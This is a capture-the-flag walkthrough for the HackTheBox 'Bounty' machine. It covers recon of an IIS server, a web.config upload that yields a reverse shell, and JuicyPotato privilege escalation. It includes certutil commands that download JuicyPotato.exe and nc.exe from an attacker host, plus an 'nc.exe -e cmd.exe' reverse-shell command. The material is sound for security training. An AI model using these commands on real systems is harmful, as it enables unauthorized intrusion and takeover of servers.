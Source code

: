 # Bounty [HTB](https://app.hackthebox.com/machines/Bounty)
![bounty-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/bounty-01.png)

## Recon 

After adding the target to `/etc/hosts`, i run an `nmap` scan:

```bash
nmap -sC -sV -A -p- bounty.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/nmap-res-02.png)

We have the following:

+ An IIS v7.5 on port 80.

We have a single web server, lets see what we can find. 


### IIS Port 80

Lets start by navigating towards the site at `http://bounty.htb` 

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/site-03.png)

Not much to see here, lets try a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bounty.htb/FUZZ -e .cgi,.php,.aspx,.asp
```

![ffuf-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-04.png)

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-05.png)

We have two interesting results. The first is a file upload directory, if we use Burp to intercept the 
request to this link we will get a `403` forbbiden return code:

![forbidden-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/forbidden-06.png)

On the other hand, we have a file upload page enabled for public use on this server:

![upload-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-07.png)

Lets try to upload a simple `.txt` file to the server:

![txt-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/txt-08.png)

We get an error. Lets examine the replay in `Burp`:

![burp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/burp-09.png)

There is a server side `ValidateFile()` funciton. I couldnt find this functiuon executing on the client 
side. We cant be sure exactly how the function works, it could determine acceptable file types via HTTP 
headers, magic numbers, file extensions, etc. 

Lets try to upload a `jpg` image:

![jpg-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/jpg-10.png)

So we see that `jpg` files are accepted. Can we view the image from the `uploadedfiles` directory? 

![view-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/view-11.png)

Yes we can. Ok, so now ideally what we want to do is find a way to land a reverse shell. With an IIS 
server we can try a copule of things. We can try to upload an `.aspx` reverse shell, which doesnt work 
in this case. The file upload validator checks the file extension. I've tried different tricks to 
bypass this but nothing worked for me. 

But we can also inject a code inside a `web.config` file, which in this case, is accepted:

![config-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/config-12.png)


If we open the file via the browser we get an internal error:

![internal-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/internal-err-13.png)

This happens becasue the server tried to render the file, but failed because there was no valid syntax, lets change that. 

I found a `web.config` file for a reverse shell on [Github](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config).

![rshell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/rhsell-14.png)

As you can see, it runs a PowerShell command to grab a reverse shell from our host and execute it.
First, download the `web.config` file and update you attack machine's IP. 

Next, grab a copy of [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)'s `Invoke-PowerShellTCP.ps1` script to your working directory and invoke the reverse shell cmdlet at the buttom:

![cmdlet-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/cmdlet-15.png)

Now we need to host this file via a python web server:

```bash
python3 -m http.server 80
```

Upload the `web.config` file to the server:

![upload-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-16.png)

Start the listener:

```bash
rlwrap nc -lnvp 443
```

Execute the  `web.config` file via the URL at `http://bounty.htb/uploadedfiles/web.config`.

This should give you access to the target system:

![shell-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/shell-17.png)


## Privilege Escalation

If we check for our user's privileges with:

```cmd
whoami /priv
```

![privs-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/privs-18.png)

We can see we have the `Impersonate` privileged enabled. We can potentially exploit this with a [potato attack](https://github.com/ohpe/juicy-potato), downlaod from [here](https://github.com/ohpe/juicy-potato/releases).


Once you have the `JuicyPotato.exe` binary in your working directory, grab a copy of `/usr/share/windows-resources/binaries/nc.exe` as well. Then start a Python server with:

```bash
python3 -m http.server 80
```

Now from the traget, `cd` into a directory we can write to like `C:\Users\merlin\AppData\Local\Temp` and download both files with:

```cmd
certutil -urlcache -f http://10.10.14.62/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.62/nc.exe nc.exe
```

Start the listener with:

```bash
rlwrap nc -lnvp 9001
```


Execute the exploit with:

```cmd
C:\Users\merlin\AppData\Local\Temp\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\merlin\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.62 9001" -t *
```

This should yield you shell access as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/root-19.png)
